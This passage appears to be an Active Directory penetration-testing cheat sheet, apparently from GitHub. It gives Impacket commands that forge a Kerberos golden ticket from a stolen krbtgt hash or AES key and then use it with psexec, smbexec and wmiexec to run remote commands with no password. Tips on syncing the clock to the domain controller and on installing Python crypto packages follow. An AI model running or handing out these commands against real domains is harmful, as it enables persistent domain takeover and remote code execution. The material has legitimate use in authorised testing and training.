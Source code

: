 ```
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### Tips
>Always remeber to sync the kdc timestamp before conducting any AD actions such as reset password of another user
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal

sudo ntpdate -s doamin
```
>Fix "module 'OpenSSL.crypto' has no attribute 'PKCS12'" error
```
wget http://launchpadlibrarian.net/732112002/python3-cryptography_41.0.7-4ubuntu0.1_amd64.deb
sudo dpkg -i python3-cryptography_41.0.7-4ubuntu0.1_amd64.deb 

wget http://launchpadlibrarian.net/715850281/python3-openssl_24.0.0-1_all.deb
sudo dpkg -i python3-openssl_24.0.0-1_all.deb
```
